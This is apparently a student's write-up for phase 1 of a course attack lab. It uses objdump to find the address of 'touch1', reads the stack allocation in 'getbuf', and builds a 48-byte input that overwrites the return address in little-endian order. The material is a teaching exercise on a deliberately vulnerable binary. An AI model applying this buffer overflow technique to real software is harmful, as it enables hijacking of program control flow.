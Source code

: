 1. use `objdump -d ctarget` to get assembly code
2. from assembly code, get address of `touch1` is `00000000004017c0`
3. disassemble `getbuf`, get this piece of code:
   ```asm
    4017a8:	48 83 ec 28          	sub    $0x28,%rsp
    4017ac:	48 89 e7             	mov    %rsp,%rdi
    4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
   ```
   since our input string stores at `$rsp`, so in order to overwrite the return address, we need to fulfill `0x28 + 8 = 48` bytes of string

    the first 40 bytes is useless, so they can be random bytes, the last 8 bytes should be the start address of `touch1`, for `ret` instruction in `getbuf` to jump to `touch1`

    so the last 8 bytes should be `c0 17 40 00 00 00 00 00` (little endian byte ordering)

    plus a terminate byte: `0x0a` to terminate string input
